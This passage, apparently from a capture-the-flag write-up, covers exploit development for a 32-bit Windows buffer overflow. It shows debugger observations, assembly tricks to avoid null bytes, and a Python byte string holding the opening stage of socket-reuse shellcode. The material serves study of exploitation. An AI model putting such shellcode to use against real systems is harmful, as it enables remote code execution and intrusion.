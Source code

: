 
x32dbg shows the arguments as:

![image-20220204152150240](https://0xdfimages.gitlab.io/img/image-20220204152150240.png)

Because this is 32-bit, the arguments are on the stack. I’ll want to make this
same call, and need to setup the necessary stack to make it happen, pushing
the arguments onto the stack in reverse order.

Before I start messing with the stack, I need to grab the socket descriptor
from somewhere. Running the program forward into the call to `_SaveCred`,
through the return overwrite and the two jumps, it reaches the buffer of INT
instructions where I will have shellcode. At this point, EBP has been stomped
by the overflow, but the ESP register still has an address on the stack. And
more importantly, down the stack a bit, the socket descriptor is still
present:

![](https://0xdfimages.gitlab.io/img/hancliffe-socket-stack.png)

This means I can get the value by loading esp, adding 0x48, and then getting
the value from that address:

    
    
    push esp
    pop eax
    add ax, 0x48
    push dword [eax]
    

Unfortunately, `add az, 0x48` has nulls in it:

    
    
    metasm > add ax, 0x48
    "\x66\x05\x48\x00"
    

I’ll add 0x149 and then subtract 0x101:

    
    
    metasm > add ax, 0x149
    "\x66\x05\x49\x01"
    metasm > sub ax, 0x101
    "\x66\x2d\x01\x01"
    

The updated payload is now:

    
    
    recv_sc = (
            # get socket descriptor in esi
            b"\x54"               # push esp
            b"\x58"               # pop eax
            b"\x66\x05\x49\x01"   # add ax, 0x149
            b"\x66\x2d\x01\x01"   # sub ax, 0x101
            b"\x8b\x30"           # mov esi, dword [eax]
            )
    
